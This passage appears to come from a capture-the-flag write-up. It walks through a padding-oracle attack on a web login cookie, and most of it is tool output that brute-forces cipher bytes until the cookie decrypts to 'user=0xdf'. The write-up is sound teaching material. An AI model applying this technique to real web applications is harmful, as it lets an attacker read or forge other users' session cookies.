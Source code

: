     Enter an ID that matches the error condition
    NOTE: The ID# marked with ** is recommended:



In this case, number 1 returns a 200 (the page) for one of the cookies,
and number 2 returns a 302 to `logout.php` for the other 255 cookies.
It's asking which is the error (and suggesting 2). I agree, so I'll
enter 2. Now it will continue brute-forcing the bytes of the cookie to
get the plaintext:



    NOTE: The ID# marked with ** is recommended : 2

    Continuing test with selection 2

    [+] Success: (188/256) [Byte 8]
    [+] Success: (89/256) [Byte 7]
    [+] Success: (24/256) [Byte 6]
    [+] Success: (168/256) [Byte 5]
    [+] Success: (78/256) [Byte 4]
    [+] Success: (174/256) [Byte 3]
    [+] Success: (73/256) [Byte 2]
    [+] Success: (18/256) [Byte 1]

    Block 1 Results:
    [+] Cipher Text (HEX): 5b4f1f86ec7e9568
    [+] Intermediate Bytes (HEX): e6b054b75ceba545
    [+] Plain Text: user=0xd

    *** Starting Block 2 of 2 ***

    [+] Success: (146/256) [Byte 8]
    [+] Success: (112/256) [Byte 7]
    [+] Success: (134/256) [Byte 6]
    [+] Success: (17/256) [Byte 5]
    [+] Success: (124/256) [Byte 4]
    [+] Success: (226/256) [Byte 3]
    [+] Success: (177/256) [Byte 2]
    [+] Success: (203/256) [Byte 1]

    Block 2 Results:
    [+] Cipher Text (HEX): c7dce25292e93514
    [+] Intermediate Bytes (HEX): 3d481881eb79926f
    [+] Plain Text: f

    -------------------------------------------------------
    ** Finished ***

    [+] Decrypted value (ASCII): user=0xdf

    [+] Decrypted value (HEX): 757365723D3078646607070707070707

    [+] Decrypted value (Base64): dXNlcj0weGRmBwcHBwcHBw==

    -------------------------------------------------------


